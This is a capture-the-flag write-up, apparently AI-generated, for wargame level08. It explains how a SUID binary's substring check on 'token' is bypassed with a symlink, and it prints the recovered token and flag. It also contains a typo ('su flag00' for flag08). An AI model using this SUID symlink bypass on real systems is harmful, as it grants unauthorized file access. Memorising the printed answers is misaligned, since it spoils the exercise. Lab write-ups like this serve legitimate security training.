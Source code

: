 Here's a `README` for **level08**, written in the same style and format as your previous solutions:

### Solution

1. **List files and check permissions:**

	```bash
	ls -l
	```

	You will see the following files:

	```
	-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
	-rw-------  1 flag08 flag08    26 Mar  5  2016 token
	```

	* The binary `level08` is **owned by `flag08`** and has the **SUID bit** set, meaning it executes with `flag08`'s privileges.
	* `token` is a file readable **only** by `flag08`.

2. **Transfer the executable file to your host machine.**

	From your host, use `scp` to copy the binary for analysis:

	```bash
	scp -P 4242 level08@<vm-ip>:~/level08 .
	```

3. **Analyze the binary with Ghidra.**

	Decompiling with Ghidra shows the following logic:

	```c
	if (argc == 1) {
		printf("%s [file to read]\n", argv[0]);
		exit(1);
	}

	if (strstr(argv[1], "token")) {
		printf("You may not access '%s'\n", argv[1]);
		exit(1);
	}

	int fd = open(argv[1], O_RDONLY);
	read(fd, buf, 1024);
	write(1, buf, n);
	```

	🔎 The binary:

	* Prevents access to files **containing** the string `"token"`.
	* But it does **not resolve symlinks** — only checks the input path **string**.

4. **Bypass the check using a symlink.**

	Create a symlink to the `token` file using a different name (e.g. `/tmp/flag08`):

	```bash
	ln -s ~/token /tmp/flag08
	```

	Then run the binary using the **symlink path**:

	```bash
	./level08 /tmp/flag08
	```

	Since `/tmp/flag08` does **not contain the substring** `token`, the binary allows access and reads the file.

	Output:

	```
	quif5eloekouj29ke0vouxean
	```

	You’ve successfully read the protected `token` file using a symbolic link.

5. **Switch to user `flag08` and get the flag:**

	```bash
	su flag00
	```

	Enter the token password: `quif5eloekouj29ke0vouxean`.

	Then run:
	```bash
	getflag
	```

	Output:

	```
	Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
	```

	You’ll receive the `flag08` token.
